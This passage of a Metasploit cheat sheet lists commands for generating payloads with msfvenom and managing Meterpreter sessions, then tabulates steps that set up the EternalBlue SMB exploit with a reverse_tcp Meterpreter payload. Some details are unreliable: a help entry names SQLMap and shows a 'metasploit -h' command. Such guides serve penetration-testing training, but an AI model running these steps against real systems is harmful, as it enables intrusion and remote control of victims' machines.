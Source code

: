 ### 7. Generate a Payload

- This command is used to create payload by specifying the format and other options of the paylad to be used in an attack. It allows the creation of customized payloads according to target systems.

```
msfvenom -p <payload> -f <format> <options>
```

### 8. List All Payloads

- This command lists all available payloads that can be used with exploits.

```
show payloads
```

### 9. Establish a Meterpreter Session

- This command enables the creation of a Meterpreter session in case of successful exploitation of a target and further post-exploitation activities. Finally, it provides an back-door for the compromised system.

```
sessions -i <session_id>
```

### 10. View Active Sessions

- This command shows the users all active sessions, providing details about each compromised target. It helps in managing multi-sessions efficiently.

```
sessions -l
```

### 11. Help and Usage Information

- This command displays the help menu and usage information for SQLMap.

```
metasploit -h
```

- Alternative usage:

```
metasploit --help
```

## Output Examples of Metasploit Commands

|Command|Example Usage|Function|Output Example|
|---|---|---|---|
|Start Metasploit|`msfconsole`|Launches the Metasploit Framework console, providing access to all Metasploit modules and tools.|`Metasploit console started.`|
|Search Exploits|`search type:exploit name:smb`|Searches for exploit modules based on a specified keyword.|`Matching Modules: 10`|
|Search Auxiliary Modules|`search type:auxiliary`|Searches for auxiliary modules within the framework.|`Matching Modules: 500`|
|Use an Exploit|`use exploit/windows/smb/ms17_010_eternalblue`|Selects a specific exploit module to be used for the attack.|`msf5 exploit(windows/smb/ms17_010_eternalblue) >`|
|Show Exploit Options|`show options`|Displays the configurable options for the currently selected exploit module.|`Module options (exploit/windows/smb/ms17_010_eternalblue): ...`|
|Set Target Host|`set RHOSTS 192.168.1.1`|Defines the remote target IP address or range for the attack.|`RHOSTS => 192.168.1.1`|
|Set Target Port|`set RPORT 445`|Specifies the remote port on the target machine.|`RPORT => 445`|
|Set Payload|`set PAYLOAD windows/meterpreter/reverse_tcp`|Configures the payload to be used after the exploit is executed.|`PAYLOAD => windows/meterpreter/reverse_tcp`|
|Set Local Host|`set LHOST 192.168.1.100`|Defines the local IP address that the payload will connect back to.|`LHOST => 192.168.1.100`|